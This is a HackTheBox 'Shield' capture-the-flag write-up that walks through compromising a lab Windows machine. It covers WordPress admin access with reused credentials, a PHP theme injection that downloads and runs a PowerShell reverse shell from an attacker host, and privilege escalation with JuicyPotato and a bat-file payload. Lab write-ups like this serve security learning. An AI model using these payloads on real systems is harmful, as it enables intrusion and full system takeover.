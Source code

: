 ```yaml
---
layout: single
title: HackTheBox - Shield Writeup
permalink: /hackthebox-sheild-writeup/
excerpt: "Starting Point Machine"
classes: wide
header:
  teaser: "/assets/images/htb/shield/shield.png"
  teaser_home_page: true
categories:
  - hackthebox
  - starting-point
  - windows
  - infosec
  - writeup
tags:
  - juicy-potato
  - seImpersonatePrivilege
---
```



![hackthebox shield title card](/assets/images/htb/shield/shield.png)


_This is machine from starting point series_ <br>
_You can download official pdf file to view the walkthrough_

# <u>1:Enumeration</u>

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![1](/assets/images/htb/shield/1.png)

- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![1](/assets/images/htb/shield/2.png)

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## <u>WebPage</u>

- Just default windows server page

![1](/assets/images/htb/shield/3.png)

### <u>Gobuster</u>

- Using gobuster to find any hidden directory
- the result

![1](/assets/images/htb/shield/4.png)

### <u>WordPress</u>

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### <u>Admin Login</u>

- Try to login as admin with credentials from previous box `vaccine`
- Success

![1](/assets/images/htb/shield/7.png)

# <u>2:Foothold/Gaining Access</u>

### <u>WordPress Theme Injection</u>
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![1](/assets/images/htb/shield/8.png)

- Well, the reverse shell is succefully execute 

### <u>SeImpersonatePrivilege</u>

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![1](/assets/images/htb/shield/9.png)

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![1](/assets/images/htb/shield/12.png)

# <u>3:Privilege Escalation</u>

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### <u>POTATO</u>

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![1](/assets/images/htb/shield/13.png)

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![1](/assets/images/htb/shield/14.png)

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result

![1](/assets/images/htb/shield/15.png)

- we've got the root flag

![1](/assets/images/htb/shield/16.png)

# <u>4:Conclusion</u>
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
